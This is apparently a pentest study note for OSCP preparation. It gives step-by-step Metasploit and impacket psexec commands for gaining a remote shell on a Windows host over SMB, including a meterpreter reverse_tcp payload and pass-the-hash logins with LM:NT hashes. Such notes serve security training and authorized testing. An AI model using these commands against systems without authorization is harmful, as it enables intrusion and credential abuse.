 We can gain shell access through different ways.

1) Using metasploit:

```
msfconsole
```

```
search psexec
```

search for exploit/windows/smb/psexec

```
use <number_at_which_thing_at>
```

go to options and set payload to 

```
set payload windows/x64/meterpreter/reverse_tcp
```

Then set your RHOSTS.

```
set rhosts <ip_of_rhost>
```

```
set smbdomain <name_of_domain>
```

```
set smbuser <name_of_user>
```

```
set smbpass <password>
```

Go to show targets and see which target you should exploit. It should work with automatic but if not, native upload and powershell might just work.

```
run
```

Then you should get a shell

![[Pasted image 20240828111618.png]]

You can also run other things while this shell is running by using:

```
background
```

And then you can get back to it by

```
sessions 1
```

You can also use metaploit to do an NTLM attack here. Which is basically a hash attack.

So you first need to set smbuser

```
set smbuser administrator
```

You dont need an smbdomain so you can unset that.

Then you need to copy the entire hash which is the LM and the NT part including the colon and run this

```
set smbpass <paste>
```

Then run

```
run
```

2) Manually without metasploit(for exams like OSCP)

Run the following command:

```
psexec.py <DC>/<name_of_user>:<password>@<ip_address>
```

And then you should get a shell

![[Pasted image 20240828112248.png]]

You can also login through a hash as well.

```
psexec.py administrator@<ip_address> -hashes <paste_the_hash>
```

![[Pasted image 20240828112427.png]]

